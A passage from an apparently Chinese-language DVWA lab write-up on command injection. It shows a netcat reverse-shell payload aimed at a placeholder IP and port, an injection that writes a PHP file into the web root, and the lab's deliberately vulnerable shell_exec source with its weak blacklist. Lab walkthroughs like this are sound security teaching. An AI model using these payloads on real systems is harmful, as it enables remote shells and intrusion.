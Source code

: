 ### 构造 payload

先尝试用网猫反向连接。输入内容改成 `localhost && nc <ip> <port> -e /bin/sh &` ，等待连接。

![image-20220422135847026](image-20220422135847026.png)

没成功。网页显示 ping 命令的输出，看了眼 dvwa 容器的日志发现提示没有`nc`命令。

好吧，上面那么多话到最后还是没有屁用。那就改成提交一个 php 一句话。输入内容改为 `localhost && echo '<?php phpinfo(); ?>' > /var/www/html/1.php`，然后访问 `http://localhost:8080/1.php`，发现成功显示 phpinfo，done。

![image-20220422140459588](image-20220422140459588-16506075001861.png)

### 提高难度：Medium

在 Medium 难度下 直接注入 `localhost && echo 123` 会发现没有 `123` 回显了，日志里出现 `ping: unknown host` 的错误，初步怀疑是对 `&&` 做了过滤。

DVWA 是个白盒，我也不用瞎试，直接点开 view source 审计下代码。

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

```